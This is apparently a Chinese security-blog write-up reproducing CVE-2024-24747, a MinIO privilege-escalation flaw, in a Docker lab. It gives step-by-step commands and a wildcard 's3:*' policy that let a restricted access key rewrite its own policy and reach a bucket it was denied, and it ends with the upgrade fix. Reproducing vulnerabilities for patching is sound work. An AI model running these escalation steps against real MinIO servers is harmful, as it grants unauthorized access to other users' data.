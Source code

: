 #  【漏洞复现】CVE-2024-24747：MinIO权限提升   
原创 fatmo  赛博安全狗   2024-03-24 13:30  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Op7Y2S0HyKx4Sibx9mxsrz68yfgLOMCxU05FFBGZtaHqGlp9uPhdwKhs0vLnxgibBpLrwfGhQVWpIHdjxlfhDyLg/640 "")  
  
简介  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yRDp2K3ZBpKOicaBvhSTPZYqTVq8ku50NMtfAqkWhJw2cyMfYEhzIZHlVGLH0Wl2tQ8usSOv6xbZxBiabe1XiaLhA/640 "")  
  
  
Minio是GlusterFS创  
始人之一Anand Babu Periasamy发布新的开源项目。  
基于Apache License v2.0开源协议的对象存储项目，采用Golang实现，客户端支Java,Python,Javacript, Golang语言。  
  
其设计的主要目标是作为私有云对象存储的标准方案。主要用于存储海量的图片，视频，文档等。非常适合于存储大容量非结构化的数据，例如图片、视频、日志文件、备份数据和容器/虚拟机镜像等，而一个对象文件可以是任意大小，从几kb到最大5T不等。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Op7Y2S0HyKx4Sibx9mxsrz68yfgLOMCxU05FFBGZtaHqGlp9uPhdwKhs0vLnxgibBpLrwfGhQVWpIHdjxlfhDyLg/640 "")  
  
漏洞概述  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yRDp2K3ZBpKOicaBvhSTPZYqTVq8ku50NMtfAqkWhJw2cyMfYEhzIZHlVGLH0Wl2tQ8usSOv6xbZxBiabe1XiaLhA/640 "")  
  
  
漏洞编号：  
CVE-2024-24747  
  
在MinIO中，可以通过创建access key来控制，通常创建的access key会继承创建它的access key的权限。如果一个access key的parent key拥有更高的权限，就可以通过轻易升级到其parent key的权限。  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Op7Y2S0HyKx4Sibx9mxsrz68yfgLOMCxU05FFBGZtaHqGlp9uPhdwKhs0vLnxgibBpLrwfGhQVWpIHdjxlfhDyLg/640 "")  
  
受影响版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yRDp2K3ZBpKOicaBvhSTPZYqTVq8ku50NMtfAqkWhJw2cyMfYEhzIZHlVGLH0Wl2tQ8usSOv6xbZxBiabe1XiaLhA/640 "")  
  
  
https://github.com/minio/minio  
，RELEASE.2024-01-31T20-20-33Z前的版本。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Op7Y2S0HyKx4Sibx9mxsrz68yfgLOMCxU05FFBGZtaHqGlp9uPhdwKhs0vLnxgibBpLrwfGhQVWpIHdjxlfhDyLg/640 "")  
  
环境搭建  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yRDp2K3ZBpKOicaBvhSTPZYqTVq8ku50NMtfAqkWhJw2cyMfYEhzIZHlVGLH0Wl2tQ8usSOv6xbZxBiabe1XiaLhA/640 "")  
  
- 拉取存在问题的  
镜像：  
  
```
docker pull bitnami/minio:2024.1.29
```  
- 然  
后把镜像拉起来：  
  
```
docker run -d -p 9000:9000-p 9001:9001--name minio \            
-e MINIO_ROOT_USER=admin \            
-e MINIO_ROOT_PASSWORD=aa666666 \            
bitnami/minio:2024.1.29
```  
- 然后访问  
http://ip:9001  
 即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWkMxLfMeCuRP0RzK2rEArYvcA4oo63UpxzjIyVtbk7S5FiaQdCMyTbIg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Op7Y2S0HyKx4Sibx9mxsrz68yfgLOMCxU05FFBGZtaHqGlp9uPhdwKhs0vLnxgibBpLrwfGhQVWpIHdjxlfhDyLg/640 "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yRDp2K3ZBpKOicaBvhSTPZYqTVq8ku50NMtfAqkWhJw2cyMfYEhzIZHlVGLH0Wl2tQ8usSOv6xbZxBiabe1XiaLhA/640 "")  
  
- 输入预设的账号密码登录，创建两个buket，分别为”public”和”private”:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWV61RKOCTm2FpJoDpb4Reg3uqz7ggMWWr6blqmCfA1130TD4tibpKWhw/640?wx_fmt=png "")  
     
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWN6vc77jModciaOVrz1buADRic5pNiaTswc8Ytl1XCQHudLsfJ3WiaQPCibQ/640?wx_fmt=png "")  
- 创建一个新的访问密钥，名为mycat，配置如下策略：  
  
```
{              
    "Version":"2012-10-17",              
    "Statement":[              
        {              
            "Effect":"Allow",              
            "Action":[              
                "s3:*"              
            ],              
            "Resource":[              
                "arn:aws:s3:::public",              
                "arn:aws:s3:::public/*"              
            ]              
        }              
    ]              
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWNwcCStU5HzicHPtf2UeoicvflymJafxqgL2icXTEEZ1icltbRLpictgjsnw/640?wx_fmt=png "")  
- 进入容器，然后使用如下命令添加别名(aa666666为创建访问密钥时输入的密码)：  
  
```
docker exec -it {docker_id}/bin/bash    
mc alias set vuln http://127.0.0.1:9000 mycat aa666666
```  
- 此时只能看到public桶，上述操作都模拟了正常用户的配置，只能访问到public，不能访问到private：  
  
```
mc ls vuln
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWvB58jsBZf7S5UnaDRGjsFgtUHPasKqPwxKGOVtYkicdeuvcQDYgnkaA/640?wx_fmt=png "")  
- 我们新建一个文件，写入如下内容：  
  
```
{              
  "Version":"2012-10-17",              
  "Statement":[              
    {              
      "Effect":"Allow",              
      "Action":[              
        "s3:*"              
      ],              
      "Resource":[              
        "arn:aws:s3:::*"              
      ]              
    }              
  ]              
}
```  
- 容器内没有文本编辑器，我们可以这么写入：  
  
```
cat > full-access-policy.json <<EOF              
{              
  "Version":"2012-10-17",              
  "Statement":[              
    {              
      "Effect":"Allow",              
      "Action":[              
        "s3:*"              
      ],              
      "Resource":[              
        "arn:aws:s3:::*"              
      ]              
    }              
  ]              
}              
EOF
```  
- 然后重新配置策略：  
      
  
```
mc admin user svcacct edit --policy full-access-policy.json vuln mycat
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWdI41ePBkwnuz4mUGaXlkDe2p0h3gOYoTtibDDGtibtMia8yj9YPFNwhmw/640?wx_fmt=png "")  
- 再执行ls，可以看到已经有private的访问权限：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FVvAFkxoh9AyspYukFlf9596t7ujntYWibj44jgmzme9iajKl1fM9lgNufRI8HBzp2qxKoQiaG53nPmtzJrLl6QVw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Op7Y2S0HyKx4Sibx9mxsrz68yfgLOMCxU05FFBGZtaHqGlp9uPhdwKhs0vLnxgibBpLrwfGhQVWpIHdjxlfhDyLg/640 "")  
  
修复方式  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yRDp2K3ZBpKOicaBvhSTPZYqTVq8ku50NMtfAqkWhJw2cyMfYEhzIZHlVGLH0Wl2tQ8usSOv6xbZxBiabe1XiaLhA/640 "")  
  
  
升级到RELEASE.2024-01-31T20-20-33Z及以上的版本。  
      
  
  
